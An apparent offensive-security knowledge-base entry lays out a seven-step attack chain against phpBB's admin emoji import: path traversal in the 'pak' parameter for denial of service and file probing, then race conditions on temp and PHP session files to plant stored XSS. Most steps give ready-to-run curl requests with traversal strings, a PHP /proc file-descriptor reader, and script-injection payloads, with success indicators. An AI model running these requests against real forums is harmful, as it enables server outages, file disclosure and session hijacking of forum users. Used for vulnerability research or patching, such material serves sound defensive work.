

---
tags:
  - path-traversal
  - stored-xss
  - dos
  - race-condition
  - phpbb
  - authenticated
type: attack_chain
tools:
  - '[[tools/PHP-Built-in-HTTP-Server]]'
  - '[[tools/Browser-Chrome]]'
tactics:
  - '[[Discovery]]'
  - '[[Impact]]'
  - '[[Execution]]'
commands:
  - '[[commands/phpbb-import-emoji-dos]]'
  - '[[commands/emulate-import-race-read]]'
  - '[[commands/phpbb-session-upload-xss-payload]]'
  - '[[commands/phpbb-import-session-file-xss]]'
verified: false
platforms:
  - Web
  - Linux
submitted: true
complexity: medium
procedures:
  - '[[procedures/Authenticate-and-Access-phpBB-Admin-Panel]]'
  - '[[procedures/Exploit-Path-Traversal-for-DoS-in-phpBB]]'
  - '[[procedures/Probe-File-Existence-via-Error-Messages-in-phpBB]]'
  - '[[procedures/Prepare-Malicious-Emoji-Payload-for-XSS]]'
  - '[[procedures/Exploit-Race-Condition-for-XSS-via-Proc-File-Descriptors]]'
  - '[[procedures/Exploit-PHP-Session-Upload-Progress-for-XSS-Race]]'
  - '[[procedures/Trigger-Stored-XSS-in-phpBB-Forum]]'
step_count: 7
techniques:
  - '[[File and Directory Discovery]]'
  - '[[Endpoint Denial of Service]]'
  - '[[JavaScript]]'
description: >-
  Multi-stage attack exploiting authenticated path traversal in phpBB's emoji
  import feature to achieve DoS via connection hanging and chain to persistent
  Stored XSS through race conditions on temporary files.
skill_level: intermediate
impact_level: high
id: c03df9ed-2a81-487a-89f3-b77c526d1d11
created_at: '2025-12-14T17:26:55.735Z'
updated_at: '2025-12-14T17:26:55.735Z'
validated: true
mitre_tactics:
  - '[[Discovery]]'
  - '[[Impact]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[File and Directory Discovery]]'
  - '[[Endpoint Denial of Service]]'
  - '[[JavaScript]]'
---
# Authenticated Path Traversal in phpBB Leading to Stored XSS and DoS

Multi-stage attack chain demonstrating exploitation of an authenticated path traversal vulnerability in phpBB's acp_icons.php file during emoji import, enabling arbitrary file reads, DoS via hanging connections, and chaining to Stored XSS through race conditions on temporary session files.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 7 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/PHP-Built-in-HTTP-Server]]
- [[tools/Browser-Chrome]]

### Target Environment

- phpBB forum with admin access
- PHP backend on Linux (e.g., /proc/self/fd accessible)
- Services: Web server on port 8082 or standard
- Tech stack: PHP, phpBB

### Initial Access Requirements

- Valid admin credentials for phpBB
- Network access to the forum's admin panel
- No prior access needed beyond authentication

## Detailed Attack Procedures

### Step 1: Authenticate and Access Admin Panel
procedure: [[procedures/Authenticate-and-Access-phpBB-Admin-Panel]]

**Objective**: Gain authenticated access to the phpBB admin control panel to reach the icons/smilies management section.

**Instructions**: Log in as an admin user and navigate to the smilies management page.

**Expected Output**: Successful login and access to /adm/index.php?i=acp_icons&mode=smilies.

**Success Indicators**:
- Admin dashboard loads without errors
- Smilies management interface is visible

### Step 2: Exploit Path Traversal for DoS
procedure: [[procedures/Exploit-Path-Traversal-for-DoS-in-phpBB]]

**Objective**: Use path traversal in the 'pak' parameter to read a hanging file descriptor, causing DoS by keeping connections open.

**Instructions**: Send a POST request to import an emoji from a traversed path to /proc/self/fd/1 using [[commands/phpbb-import-emoji-dos]]:

```bash
curl -X POST "http://target:8082/adm/index.php?i=acp_icons&mode=smilies&current=delete" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "action=import&pak=../../../../../../../../../proc/self/fd/1&form_token=TOKEN&creation_time=TIMESTAMP"
```

**Expected Output**: Request hangs with no response, TCP connection remains open.

**Success Indicators**:
- Connection timeout observed
- Server load increases, especially behind proxies

### Step 3: Probe File Existence
procedure: [[procedures/Probe-File-Existence-via-Error-Messages-in-phpBB]]

**Objective**: Detect if files exist on the server by observing error message differences during import attempts.

**Instructions**: Attempt imports with invalid paths and note response codes: PAK_FILE_NOT_READABLE for non-existent vs. WRONG_PAK_TYPE for invalid formats.

**Expected Output**: Specific error messages indicating file presence.

**Success Indicators**:
- Different error responses for existent vs. non-existent files
- Ability to map server file structure

### Step 4: Prepare Malicious Emoji Payload
procedure: [[procedures/Prepare-Malicious-Emoji-Payload-for-XSS]]

**Objective**: Craft a malicious emoji file with unsanitized SMILEY_IMG containing XSS payload.

**Instructions**: Create content like '"onmouseover=alert() ><script>alert()</script>"' in the expected emoji import format.

**Expected Output**: Valid emoji file ready for import via race.

**Success Indicators**:
- Payload passes basic format checks
- Script tag is injectable without sanitization

### Step 5: Exploit Race Condition for XSS via Proc
procedure: [[procedures/Exploit-Race-Condition-for-XSS-via-Proc-File-Descriptors]]

**Objective**: Spam uploads to create temp files, then race import requests to read via /proc/<pid>/fd/<fd> before deletion.

**Instructions**: Use a demo script like [[commands/emulate-import-race-read]] to simulate reading the temp file:

```php
<?php
while($f = @file("/proc/<pid>/fd/<fd>")) {
    var_dump($f);
}
?>
```

Spam upload and import concurrently.

**Expected Output**: Malicious content read and imported as emoji.

**Success Indicators**:
- Temp file content dumped before cleanup
- Emoji imported with XSS payload

### Step 6: Alternative Exploitation via PHP Session Upload
procedure: [[procedures/Exploit-PHP-Session-Upload-Progress-for-XSS-Race]]

**Objective**: Inject XSS into session progress field during upload, then race import to read the sess_ file.

**Instructions**: Perform upload with payload using [[commands/phpbb-session-upload-xss-payload]]:

```bash
curl -X POST "http://target/posting.php?mode=reply&t=1" \
  -H "Cookie: PHPSESSID=shin24" \
  -F "PHP_SESSION_UPLOAD_PROGRESS='\"onmouseover=alert() ><script>alert()</script>\"'" \
  -F "fileupload=@poc.zip"
```

Then race with [[commands/phpbb-import-session-file-xss]]:

```bash
curl -X POST "http://target:8082/adm/index.php?i=acp_icons&mode=smilies&current=delete" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "action=import&pak=../../../../../../../../../var/lib/php/sessions/sess_shin24&form_token=TOKEN&creation_time=TIMESTAMP"
```

**Expected Output**: Session file created with payload, imported successfully.

**Success Indicators**:
- sess_ file contains XSS before deletion
- Import passes regex due to partial match

### Step 7: Trigger Stored XSS
procedure: [[procedures/Trigger-Stored-XSS-in-phpBB-Forum]]

**Objective**: View affected pages to execute the persistent XSS payload.

**Instructions**: Navigate to posts, comments, or admin sections where the malicious emoji is displayed.

**Expected Output**: Alert() or other payload executes onmouseover or load.

**Success Indicators**:
- XSS triggers in browser
- Potential for defacement, cookie theft, or malware

## Attack Chain Summary

### Key Achievements

1. Achieved authenticated arbitrary file read and existence probing
2. Caused server DoS via hanging connections, amplified behind proxies
3. Chained to persistent Stored XSS affecting all users for session hijacking or defacement

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[File and Directory Discovery]] File and Directory Discovery
- [[Endpoint Denial of Service]] Endpoint Denial of Service
- [[JavaScript]] JavaScript

### MITRE ATT&CK Tactics

- [[Discovery]] Discovery
- [[Impact]] Impact
- [[Execution]] Execution

---

*Last updated: 2023-10-01T00:00:00Z*
